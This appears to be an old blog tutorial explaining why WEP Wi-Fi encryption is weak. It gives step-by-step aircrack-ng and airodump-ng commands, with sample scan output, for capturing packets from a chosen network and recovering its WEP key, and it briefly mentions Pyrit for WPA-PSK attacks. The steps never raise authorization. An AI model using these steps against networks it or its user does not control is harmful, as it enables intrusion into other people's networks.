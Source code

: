 ```yaml
---
comments: true
date: "2010-04-03T17:29:24Z"
slug: hack-wireless-network
tags:
- Aircrack-ng
- Debian
- Network Security
- Ubuntu
- WEP
- Wi-Fi
- WPA
title: How to Hack a Wireless Network
wordpress_id: 22
---
```


[WEP](http://en.wikipedia.org/wiki/Wired_Equivalent_Privacy) was intended to provide comparable confidentiality to a traditional wired network (in particular it does not protect users of the network from each other, but from outsiders), hence the name WEP.

Despite the intention, several serious weaknesses were identified by [cryptanalysts](http://en.wikipedia.org/wiki/Cryptanalysis) over the last years. The severity of the weaknesses means that any WEP protected network can be cracked using the right software within two minutes or less.

WEP was superseded by [Wi-Fi Protected Access](http://en.wikipedia.org/wiki/Wi-Fi_Protected_Access) (also known as WPA) in 2003, and then by the full [IEEE 802.11i](http://en.wikipedia.org/wiki/IEEE_802.11i-2004) standard (also known as WPA2) in 2004. Despite the weaknesses, WEP provides a level of security that can deter casual snooping.

**Hack Versus Crack**

For your information - just to get the right jargon.

The Eric S. Raymonds [Jargon File](http://www.catb.org/jargon) contains a bunch of definitions of the term "[hacker](http://en.wikipedia.org/wiki/Hacker_%28computer_security%29)", most having to do with technical adeptness and a delight in solving problems and overcoming limits. The basic difference between a hacker and a cracker is this: hackers build things, crackers break them.

**Howto Conduct The Actual Crack**

It's fairly easy to [crack](http://en.wikipedia.org/wiki/Password_cracking) a [WEP](http://en.wikipedia.org/wiki/Wired_Equivalent_Privacy) encrypted [wireless network](http://en.wikipedia.org/wiki/Wi-Fi), because the [WEP encryption](http://en.wikipedia.org/wiki/Wired_Equivalent_Privacy) has some serious flaws in its design, flaws that makes it easy and fast to [crack](http://en.wikipedia.org/wiki/Password_cracking) or hack.

Install [aircrack-ng](http://www.aircrack-ng.org/) - on Debian or Ubuntu by:

    
    sudo aptitude install aircrack-ng


Then start aircrack-ng to look for wireless networks:

    
    sudo airodump-ng eth1

Then notice the channel number of the wireless network you want to crack.

    CH  1 ][ Elapsed: 9 mins ][ 2012-08-19 18:35
     
    BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
    
    70:71:BC:A6:FF:FF  -68      285      191    0   4  54e  WEP  WEP         wifi-0
    00:17:9A:F1:FF:FF  -77      599      104    0   6  54 . WEP  WEP         wifi-1
    4C:E6:76:C4:FF:FF  -38      926       60    0   2  54e  WPA2 CCMP   PSK  wifi-2
    C4:3D:C7:34:FF:FF  -62      476      397    0   8  54e  WPA  TKIP   PSK  wifi-3


Quit aircrack-ng and start it again with med specific channel number to collect packages faster:

    
    sudo airodump-ng -c 4 -w dump eth1


Then wait and let it collect about 500K IVS and the try the do the actual crack:

    
    sudo aircrack-ng -b 0a:0b:0c:0d:0e:0f dump-01.cap


The MAC after the -b option is the BSSID of the target and dump-01.cap the file containing the captured packets.

**Only WEP Encrypted Networks**

Keep in mind that this approach is only usable in relation to WEP encrypted wireless networks, and cannot be used to crack WPA and WPA2 encrypted networks.

However, there is a new project called [Pyrit](http://code.google.com/p/pyrit/),which is currently under it's way. Pyrit takes a step ahead in attacking WPA-PSK and WPA2-PSK, the protocol that today de-facto protects public [WIFI](http://en.wikipedia.org/wiki/Wi-Fi)-airspace. The project's goal is to estimate the real-world security provided by these protocols. Pyrit does not provide [binary](http://en.wikipedia.org/wiki/Binary_file) files or wordlists and does not encourage anyone to participate or engage in any harmful activity. This is a research project, not a cracking tool - keep that in mind ;-)

Pyrit's implementation allows to create massive databases, pre-computing part of the WPA/WPA2-PSK authentication phase in a space-time-tradeoff. The performance gain for real-world-attacks is in the range of three orders of magnitude which urges for re-consideration of the protocol's security. Exploiting the computational power of [GPUs](http://en.wikipedia.org/wiki/Graphics_processing_unit), this is currently by far the most powerful attack against one of the world's most used security-protocols.
